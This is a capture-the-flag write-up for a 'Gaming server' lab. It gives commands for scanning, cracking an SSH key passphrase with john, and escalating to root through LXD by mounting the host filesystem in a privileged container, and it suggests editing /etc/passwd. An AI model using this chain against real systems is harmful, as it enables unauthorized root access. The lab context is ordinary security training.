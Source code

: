 # Gaming server

* Scan with nmap
```bash
$ nmap -p- -sV $IP
```
* We find the folder */uploads* containing a dictionary *dict.lst*
* Nikto and dirbuster find the */secret* folder, containing an *RSA private key*
* The HTML code has a comment referencing a user *john*
* The key has a password which we can bruteforce using
```bash
$ locate ssh2john.py
/usr/share/john/ssh2john.py
$ /usr/share/john/ssh2john.py rsa_pv_key > key4john
$ john key4john --wordlist=dict.lst
```
* The password is *letmein*, also present in *rockyou.txt*

```bash
$ ssh -i rsa_pv_key john@10.10.208.227
$ git clone  https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ ./build-alpine

# Transfer the archive to the target with wget and python http server or scp
$ lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
$ lxc image list
$ lxc init myimage ignite -c security.privileged=true
$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
$ lxc start ignite
$ lxc exec ignite /bin/sh
$ id
# then navigate to /mnt/root/root to get the flag
# if we wanted to really gain root, we could set another password to root in the /etc/passwd file
```

